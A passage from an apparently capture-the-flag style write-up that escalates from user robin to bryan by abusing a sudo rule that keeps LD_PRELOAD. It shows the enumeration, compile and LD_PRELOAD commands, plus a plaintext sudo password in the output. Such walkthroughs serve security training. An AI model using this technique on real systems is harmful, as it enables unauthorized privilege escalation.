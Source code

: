     Lemme know!
    
    - --
    Sean

We search for the dice program:

    ::text
    find / -name 'dice' 2>/dev/null
    /usr/local/bin/dice

This program simply roll a dice:

    ::text
    /usr/local/bin/dice
    Dice said: 1804289383

An other useful information is that we can roll the dice as bryan:

    ::text
    sudo -l
    [sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898

    Matching Defaults entries for robin on this host:
        requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
        DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
        PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
        LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
        LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", env_keep+=LD_PRELOAD,
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User robin may run the following commands on this host:
        (bryan) /usr/local/bin/dice

Let us put all the pieces together. We can run the program as bryan, we now that
the program load the `LD_PRELOAD` environement variable.

A simple google search lead us to
[this article](http://jvns.ca/blog/2014/11/27/ld-preload-is-super-fun-and-easy/)
and
[this one](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).
So now we just need to write a shared library to replace `rand()` by `/bin/bash`
run the program as bryan and we would get a shell as bryan.

When testing the trick I ran into the following error:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc: error trying to exec 'cc1': execvp: No such file or directory

We just need to add some variable to our user's PATH:

    ::text
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/game

From there we we can compile the shared library and execute the dice program
with it:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc -shared -fPIC unrandom.c -o unrandom.so
    [robin@fII ~]$ LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    42 baby
